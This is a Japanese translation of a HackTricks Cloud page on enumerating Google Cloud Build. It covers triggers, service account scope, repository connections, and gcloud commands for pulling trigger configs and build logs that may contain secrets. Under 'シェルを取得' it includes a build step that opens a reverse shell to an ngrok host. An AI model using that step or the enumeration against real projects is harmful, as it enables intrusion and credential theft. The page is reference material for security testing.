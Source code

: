 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[Telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
- **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

## 基本情報

Google Cloud Buildは、**ソースコードリポジトリと統合**し、**幅広いプログラミング言語をサポート**する、ソフトウェアビルドとリリースプロセスを**自動化**するマネージドCI/CDプラットフォームです。**開発者がコードを自動的にビルド、テスト、デプロイ**できるようにし、ビルドステップやワークフローをカスタマイズできます。

各Cloud Buildトリガーは、**Cloudリポジトリに関連付けられているか、外部リポジトリ（Github、Bitbucket、Gitlab）と直接接続されています**。

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見当たりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされません。
{% endhint %}

### イベント

Cloud Buildは、次の場合にトリガーされます：

- **ブランチにプッシュ**：ブランチを指定
- **新しいタグをプッシュ**：タグを指定
- **プルリクエスト**：PRを受け取るブランチを指定
- **手動呼び出し**
- **Pub/Subメッセージ**：トピックを指定
- **Webhookイベント**：HTTPS URLを公開し、リクエストは秘密で認証される必要があります

### 実行

3つのオプションがあります：

- 実行するコマンドを指定するyaml/json。通常は：`/cloudbuild.yaml`
- WebコンソールとCLIで「インライン」で指定できる唯一のもの
- 最も一般的なオプション
- 認証されていないアクセスに関連する
- ビルドするための**Dockerfile**
- ビルドするための**Buildpack**

### SA権限

**サービスアカウントには`cloud-platform`スコープがあり**、**すべての権限を使用**できます。**SAが指定されていない**場合（submitを行う場合など）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com` が**使用**されます。

デフォルトでは権限が与えられていませんが、簡単に権限を与えることができます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

Cloud Buildを構成して、ビルドの実行に**承認が必要**なようにすることができます（デフォルトでは無効）。

### 接続とリポジトリ

接続は以下で作成できます：

- **GitHub**：Githubトークンを取得するために**OAuthプロンプト**が表示され、**Secret Manager**内に保存される
- **GitHub Enterprise**：**GithubApp**をインストールするように求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクト内に**Secret Manager**シークレットとして保存されます。
- **GitLab / Enterprise**：**APIアクセストークン**と**Read APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持つリポジトリを**リンク**することができます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代を使用するトリガーでのみ利用可能**です。
{% endhint %}

### リポジトリを接続する

これは**`接続`**とは異なります。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスできますが、**接続オブジェクトは生成されません**。ただし、リポジトリオブジェクト（1世代）は生成されます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildはトリガーのファイルを保存するための新しいストレージを生成します。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
```plaintext
Install gcloud inside cloud build:
```

```plaintext
クラウドビルド内でgcloudをインストールします：
```
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 列挙

**ビルド構成とログに機密情報が含まれている可能性があります**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の処理

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする**
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
